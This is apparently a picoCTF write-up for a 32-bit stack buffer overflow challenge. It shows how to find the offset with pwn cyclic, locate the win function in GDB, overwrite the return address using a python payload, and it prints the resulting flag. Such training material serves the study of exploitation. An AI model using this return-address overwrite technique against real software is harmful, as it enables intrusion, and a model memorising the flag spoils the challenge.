 # buffer overflow 1
Binary Exploitation - 200 points

## Challenge 
> Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](vuln)? You can find it in /problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613 on the shell server. 

[Source](vuln.c).

## Solution

Return address is shown 

	$ ./vuln 
	Please enter your string: 
	Okay, time to return... Fingers Crossed... Jumping to 0x80486b3

Get offset value

	$ pwn cyclic 100 | ./vuln
	Please enter your string: 
	Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
	Segmentation fault

	$ pwn cyclic -l 0x6161616c
	44

Get address from GDB
	
	$ gdb vuln
	(gdb) info add win
	Symbol "win" is at 0x80485cb in a file compiled without debugging.

Craft payload

	$ python -c 'print "\x00"*44 + "\xcb\x85\x04\x08"' | ./vuln 
	Please enter your string: 
	Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
	picoCTF{addr3ss3s_ar3_3asy3656a9b3}Segmentation fault


## Flag

	picoCTF{addr3ss3s_ar3_3asy3656a9b3}
